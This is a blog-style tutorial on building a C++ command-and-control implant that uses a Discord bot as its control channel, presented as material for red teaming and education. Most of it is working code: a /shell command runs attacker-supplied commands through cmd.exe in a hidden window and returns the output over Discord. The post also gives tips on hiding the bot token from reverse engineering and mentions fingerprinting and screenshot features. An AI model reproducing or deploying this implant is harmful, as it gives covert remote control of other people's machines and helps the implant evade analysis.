 ##### Using Discord as a C2

While researching online, I came across convoC2, a project that uses Microsoft Teams as a Command and Control (C2) server. It immediately took me back to my malware development days. That sparked an idea; why not build something similar using Discord as the C2 channel?

The malicious abuse of Discord as a C2 medium is already widespread in the wild. So if you're looking for something for your blackhat toolkit, this post won’t offer much value. However, if you're interested in understanding how C2 infrastructure can be designed over modern chat platforms, especially for red teaming, simulation, or educational purposes then this writeup will serve as a solid starting point.

**Pros:**
Using public platforms like Discord eliminates the overhead of setting up and maintaining your own C2 infrastructure. There's no need for VPS, domain registrations, or SSL certificates as everything rides on an already trusted service.

**Cons:**
When law enforcement comes knocking, understand that you’ve handed them everything. Logs, identifiers, timestamps, and platform level visibility. You didn’t just use Discord, you left footprints on someone else's server.

### Prerequisites

1. Coding in a low level language; Difficult to reverse, more practical for real world simulations. I'll be using C++.
2. Discord Bot config (https://discord.com/developers/applications)

#### Setting up Discord BOT

- Go to [Discord Developer portal](https://discord.com/developers/applications) and create a "New Application", name it anything you want.
- ![devportal](https://raw.githubusercontent.com/quantumcore/quantumcore.github.io/refs/heads/master/_posts/discord1.png)
- Go to Bot -> **Reset Token**. Copy the token, It is the only thing that we will need.

### Lets Code

I will be using the following C++ Library for discord: [https://github.com/brainboxdotcc/DPP](https://github.com/brainboxdotcc/DPP). You can go to its [releases](https://github.com/brainboxdotcc/DPP/releases/tag/v10.1.3) and install it however you want.

#### Connect to discord

Below is a baseline code that will connect and send a message to your discord server, make sure you add your discord bot to a test server before running the below snippet.

```cpp
#include <dpp/dpp.h>

int main() {
    const char* token_chars = "BOT_TOKEN_HERE"; // Replace with your actual token
    std::string token(token_chars);
    dpp::cluster bot(token);

    bot.on_ready([&bot](const dpp::ready_t& event) {
        std::cout << "Bot is now online!" << std::endl;
    });

    bot.start(dpp::st_wait);
    return 0;
}
```

The code is compiled into a binary. When executed, the Discord bot comes online and sends a message, signaling it's active. From there, we can send commands directly from the Discord server to the bot, and define custom instructions for it to execute.

Sounds familiar? It should it’s essentially the foundation of a Command and Control (C2) system.

#### Adding a shell

The following code reads in /shell command, and executes the argument, returns output:

```cpp
bot.on_slashcommand([&bot](const dpp::slashcommand_t& event) {
        std::string cmd = event.command.get_command_name();
        if (cmd == "shell") {
            try {
                std::string command = std::get<std::string>(event.get_parameter("command"));
                std::wstring wcmd = L"cmd.exe /c " + std::wstring(command.begin(), command.end());

                // Let the user know the command is being processed
                event.thinking();

                std::string output = execute_command(wcmd);
                if (output.empty()) output = "Command executed but returned no output.";

                // Format output as code block
                if (output.length() > 1900) {
                    send_chunked_reply(event, "```\n" + output + "\n```");
                }
                else {
                    event.edit_original_response(dpp::message("```\n" + output + "\n```"));
                }
            }
            catch (const std::exception& e) {
                event.edit_original_response(dpp::message("Error executing command: " + std::string(e.what())));
            }
        }
```

execute_command() implementation:
```cpp
std::string execute_command(const std::wstring& cmd) {
    SECURITY_ATTRIBUTES sa;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.bInheritHandle = TRUE;
    sa.lpSecurityDescriptor = NULL;

    HANDLE hOutRd, hOutWr;
    if (!CreatePipe(&hOutRd, &hOutWr, &sa, 0)) {
        return "Failed to create pipe";
    }
    if (!SetHandleInformation(hOutRd, HANDLE_FLAG_INHERIT, 0)) {
        CloseHandle(hOutRd);
        CloseHandle(hOutWr);
        return "Failed to set handle information";
    }

    STARTUPINFOW si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.hStdOutput = hOutWr;
    si.hStdError = hOutWr;

    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));


    if (!CreateProcessW(NULL, const_cast<LPWSTR>(cmd.c_str()), NULL, NULL, TRUE,
        CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
        CloseHandle(hOutRd);
        CloseHandle(hOutWr);
        return "Failed to create process: " + std::to_string(GetLastError());
    }

    CloseHandle(hOutWr);
    std::string result;
    DWORD bytesRead;
    char buffer[4096];
    bool success = false;

    while (true) {
        success = ReadFile(hOutRd, buffer, sizeof(buffer) - 1, &bytesRead, NULL);
        if (!success || bytesRead == 0) break;

        buffer[bytesRead] = '\0';
        result += buffer;
    }

    WaitForSingleObject(pi.hProcess, 10000); // Wait up to 10 seconds
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    CloseHandle(hOutRd);

    return result;
}
```

The above function executes system command and returns its output as a string. When it is called from within the code, it should look something like:
![shell1](https://raw.githubusercontent.com/quantumcore/quantumcore.github.io/refs/heads/master/_posts/shell1.png)

### Bot token hardcoding
Since the bot token is hardcoded as a string, IT can be easily extracted with simple RE techniques. To handle this, You can encrypt the bot token or place it at EOF in the binary after its built, and make the code read the bot token from EOF when it is started. I can go over through that but that is a topic that deserves its own post.

### Wrapping Up
The codebase I’m working on already includes features like system fingerprinting and screenshot capture. I’ll cover those and more advanced features in a follow-up post.
